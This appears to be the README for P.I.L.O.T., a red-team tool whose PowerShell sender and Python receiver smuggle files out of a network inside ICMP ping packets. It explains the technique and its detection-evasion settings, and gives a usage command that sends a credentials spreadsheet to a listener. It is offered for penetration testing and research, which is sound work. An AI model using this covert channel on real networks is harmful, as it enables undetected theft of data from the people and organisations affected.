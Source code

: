 # P.I.L.O.T - Ping-based Information Lookup and Outbound Transfer
Author - Dahvid Schloss

Pilot is a simplified system designed for the stealthy transfer of files across networks using ICMP (Internet Control Message Protocol) packets. This system comprises two main components: a PowerShell script for sending data and a Python script for receiving and reassembling the data. By leveraging ICMP, traditionally used for diagnostic purposes (e.g., ping), P.I.L.O.T enables the transmission of data in environments where traditional methods might be monitored or blocked.


### 1. PILOT (The Sender)

Breaks down files into 32-byte chunks and sends them over the network using ICMP echo requests. It includes functionality to send a preliminary packet containing file metadata (name, type, and total chunk count) before transmitting the data chunks. This is used for recompiling with the smae name and file type on the recieving end

Customization Options: 

-targetIP = Where is your listener default is 127.0.0.1

-filePath = What file do you want to send

-chunksize = This is the size of the file chunks. The default is 32 because layer 1-3 of ICMP packets are 32 and we are emualting MS's default behavior which is 64 byte packets. If you make it a larger chunk do not exceed 65507. Any deviation from default could result is easier dection

-delay = if you want to add some its done in miliseconds, no sorry, 1000 would be 1 second for those who don't know the metrics also would be more realistic to how ping works. Default is 0 though cause who wants to wait 5900 seconds for a file

### 2. ATC (The Reciever)

Listens for incoming ICMP packets, extracts the payload containing the file data or metadata, and reassembles the original file based on the chunks received. Very simple no options ez pz lemon squeezy

Requirements: Requires administrative privileges due to the use of raw sockets for listening to ICMP packets.

## How and Why It Works

File Preparation: The sender script reads the target file, breaking it into specified chunk sizes. It then generates a header packet containing the file's metadata.

Data Transmission: The sender script transmits the header packet followed by each data chunk as individual ICMP packets to the target IP address. Each transmission's success is verified, and the process can be halted if a transmission fails.

Data Reception: The receiver script continuously listens for ICMP packets, extracting the transmitted data. Upon receiving the header packet, it prepares to reconstruct the original file based on the total chunks expected.

File Reassembly: Once all chunks are received, the receiver script reassembles and saves the file using the metadata provided in the header packet.


Now the reason this attack vector works is all down to how ICMP is structured. First we should look at the ICMP packet as two parts, 1 part is comprised of layer 1-3 and the second part is layer 4

Becuase layer 4 is involved it means there is more data involved in the packet than just the where to go info. 

To break down The header and data payload of the packet we have the following sections;

- Type (8 bits): Indicates the type of the ICMP message, e.g., Echo Request (8) or Echo Reply (0).

- Code (8 bits): Provides further information about the message type.

- Checksum (16 bits): Used for error-checking the header and data, ensuring the integrity of the message.

- Other Fields (variable): Depending on the type/code of the ICMP message, these fields may vary. For Echo Request and Echo Reply messages, these include an identifier and a sequence number, both 16 bits long.

- Data Payload: This portion of the packet is where data is included and can vary in size. In the context of Echo Request/Reply messages, this is typically where arbitrary data is placed for the echo operation.

Normally this Data payload section of the packet is used by network engineers to determine their max MTU size for the connection and if you adjust the data size using ping this data section is filled with very random data to fill the space to bring it up to what ever the requested  size is. By default Microsoft puts the alphabet in the packet so at a minimum there is 64 bytes. 
Now because its a defined strucute it means that there are plenty of tools orgnanic to programming languages to manipulate these layer 4 items like data. So what we are doing here is exactly that we are chunking out the files and then putting them in the data section of the packet and on the distant end we are reading the packet's data section. 


## Setup & Usage

### Sender Setup

Open powershell and import the script

`.\PILOT.ps1`

execute the script

`run-pilot -targetIP 192.168.10.10 -filePath .\sweetsweetcreds.xls`

### Receiver Setup

Ensure Python 3.x is installed on your system, with administrative or root access to listen for ICMP packets.

Run the Python receiver script. The script will automatically listen and save the incoming file. You will need a new listener for each new file 

## Security Considerations

Use P.I.L.O.T within legal and ethical boundaries. It is designed for secure environments, research, and testing purposes.
Be aware of network monitoring tools that may detect unusual ICMP traffic.


## Final Notes

P.I.L.O.T represents a novel approach to data transfer, showcasing the flexibility of network protocols for beyond-standard uses. Whether for penetration testing, secure file transfer in restricted environments, or research, P.I.L.O.T offers a unique tool in the cybersecurity toolkit.
